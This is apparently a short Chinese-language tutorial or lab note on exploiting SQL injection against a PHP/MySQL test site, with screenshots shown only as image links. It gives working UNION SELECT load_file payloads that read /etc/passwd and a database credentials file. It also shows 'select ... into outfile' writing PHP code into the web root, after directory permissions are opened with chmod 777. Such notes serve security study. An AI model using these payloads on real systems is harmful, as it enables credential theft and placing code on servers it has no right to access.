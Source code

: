 ```bash
```

读取敏感信息：https://blog.csdn.net/weixin_30292843/article/details/99381669

在网站上面读取内容:`?id=-2%20union%20select%201,load_file(%27/etc/passwd%27),3`

![img](https://s2.loli.net/2022/11/25/dHj6NV9YB3skueT.png)

读取数据库的配置信息

```
?id=-1%20union%20select%201,load_file(%27/var/www/html/sql-connections/db-creds.inc%27),3
```

![img](https://s2.loli.net/2022/11/25/Z3U8swQPd5bXEIC.png)

右击查看源代码

![img](https://s2.loli.net/2022/11/25/6BXZ3fnCU4vmoy2.png)

- 文件写入

```bash
mysql> select '<?php phpinfo() ?>' into outfile './php';
Query OK, 1 row affected (0.00 sec)

mysql>
root@06026a1599f9:/# cat /var/lib/mysql/php
<?php phpinfo() ?>

mysql> select '<?php phpinfo() ?>' into outfile '/var/www/php';
ERROR 1 (HY000): Can't create/write to file '/var/www/php' (Errcode: 13)
mysql>
```

在linux中默认是对/var/lib/mysql目录下有写入权限对其他目录是没有写入权限。

对目录修改权限测试

```bash
mysql> select '<?php phpinfo() ?>' into outfile '/var/www/html/test.php';
ERROR 1 (HY000): Can't create/write to file '/var/www/html/test.php' (Errcode: 13)
mysql> \q
root@06026a1599f9:/# chmod -Rf 777 /var/www/html/
root@06026a1599f9:/# mysql
mysql> select '<?php phpinfo() ?>' into outfile '/var/www/html/test.php';
mysql>
```



在网页上写入

![img](https://s2.loli.net/2022/11/25/rVWtAyl2Jjk7RGw.png)

```bash
root@06026a1599f9:/var/lib/mysql# pwd
/var/lib/mysql
root@06026a1599f9:/var/lib/mysql# ls -l test.php
-rw-rw-rw- 1 mysql mysql 23 Jun 18 12:17 test.php
root@06026a1599f9:/var/lib/mysql# cat test.php
1       <?php phpinfo() ?>      3
root@06026a1599f9:/var/lib/mysql#
```
